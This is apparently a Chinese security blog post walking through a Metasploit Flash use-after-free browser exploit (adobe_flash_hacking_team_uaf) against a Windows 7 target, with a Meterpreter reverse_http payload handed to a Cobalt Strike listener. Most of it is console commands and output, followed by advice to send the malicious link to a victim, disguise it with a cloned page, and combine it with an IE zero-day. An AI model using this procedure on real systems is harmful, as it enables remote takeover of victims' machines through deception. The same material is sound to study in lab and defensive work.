



# 0x00 简介

MSF内部集成很多模块，我这里用的一个flash漏洞模块adobe_flash_hacking_team_uaf 然后把会话给CS 这篇文章的内容很早就在[油管](https://www.youtube.com/watch?v=fnCLdPOmZOk)上就有了，所以手法不是很超前，但是写出来也是提供一个思路，让大家发挥。

# 0x01 过程
### 环境：
攻击机：kali
目标机：win7
flash版本：flashplayer14_0r0_125_winax

首先我们启动msf 配置我们的payload


```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LHOST 192.168.130.130
LHOST => 192.168.130.130
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LPORT 8880
LPORT => 8880
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > exploit -j
[*] Exploit running as background job 2.

[*] Using URL: http://0.0.0.0:80/X11zRtcWP
[*] Local IP: http://192.168.130.130:80/X11zRtcWP
[*] Server started.

```

>默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，这里我们设置：
set DisablePayloadHandler true

然后再配置Cobalt Strike  生成一个Listeners  端口和msf 中LPORT的端口一样 地址就是主机地址，然后我们可以直接把msf中的连接发送给目标机了，当然你觉得一个空白页面迷惑性不是很强的话可以使用克隆功能。



然后再把生成的链接发送给目标 ，最好是自己测试一下使用克隆，不知道怎么回事不上线情况居多，不知道是目标环境配置问题还是什么，我没有深入研究，访问成功后在msf中我们可以看到下载记录和CS中成功上线



# 0x02 文末

这里克隆后 自己最好是测试下是否可以上线，作者这里老出问题。本文讲的flash版本漏洞或许过时，还可以搭配 ie的0day来利用（2小时）

### 本文如有错误，请及时提醒，以免误导他人